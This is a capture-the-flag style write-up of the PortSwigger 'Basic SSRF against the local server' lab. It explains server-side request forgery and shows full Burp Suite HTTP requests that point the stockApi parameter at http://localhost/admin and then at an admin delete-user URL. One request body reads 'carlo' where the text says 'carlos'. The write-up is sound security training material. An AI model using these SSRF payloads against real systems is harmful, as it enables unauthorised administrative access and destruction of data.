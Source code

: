 ## Basic SSRF against the local server

**Title:** Basic SSRF against the local server. [Go](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.
 
## Preface

In an SSRF attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` (a reserved IP address that points to the loopback adapter) or `localhost` (a commonly used name for the same adapter).

For example, imagine a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs. It does this by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. When a user views the stock status for an item, their browser makes the following request:

``` HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this example, an attacker can modify the request to specify a URL local to the server:

```HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

The server fetches the contents of the `/admin` URL and returns it to the user.

An attacker can visit the `/admin` URL, but the administrative functionality is normally only accessible to authenticated users. This means an attacker won't see anything of interest. However, if the request to the `/admin` URL comes from the local machine, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.


Why do applications behave in this way, and implicitly trust requests that come from the local machine? This can arise for various reasons:

- The access control check might be implemented in a different component that sits in front of the application server. When a connection is made back to the server, the check is bypassed.

- For disaster recovery purposes, the application might allow administrative access without logging in, to any user coming from the local machine. This provides a way for an administrator to recover the system if they lose their credentials. This assumes that only a fully trusted user would come directly from the server.

- The administrative interface might listen on a different port number to the main application, and might not be reachable directly by users.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, often make SSRF into a critical vulnerability.

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

We browsed `/admin` endpoint and observed that we can't directly access the admin page. Then we visited a product page to intercept the "Check stock" request in Burp Suite, and sent it to Burp Repeater. Changeing the URL in the `stockApi` parameter to `http://localhost/admin`. This should display the administration interface. Reading the HTML to identify the URL to delete the target user, which is `http://localhost/admin/delete?username=carlos`. Submitting this URL in the `stockApi` parameter, to deliver the SSRF attack.

**Request**
``` HTTP
POST /product/stock HTTP/2
Host: 0a68001404005fa584deae17001a0072.web-security-academy.net
Cookie: session=KOygNbKBlQvDMQ7sCuiBLYQHt7rFGX30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68001404005fa584deae17001a0072.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a68001404005fa584deae17001a0072.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin&storeId=1
```
**Response**
``` HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=YPP0UZ5ijO4F8RyCMnOIdom9IrIkCERO; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3070
```

**Request**
```HTTP
POST /product/stock HTTP/2
Host: 0a68001404005fa584deae17001a0072.web-security-academy.net
Cookie: session=KOygNbKBlQvDMQ7sCuiBLYQHt7rFGX30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68001404005fa584deae17001a0072.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: https://0a68001404005fa584deae17001a0072.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin/delete?username=carlo&storeId=1
```
**Response**
``` HTTP
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=ah22Z18JAEsyU4Fexe6zfDsCqiShibzX; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
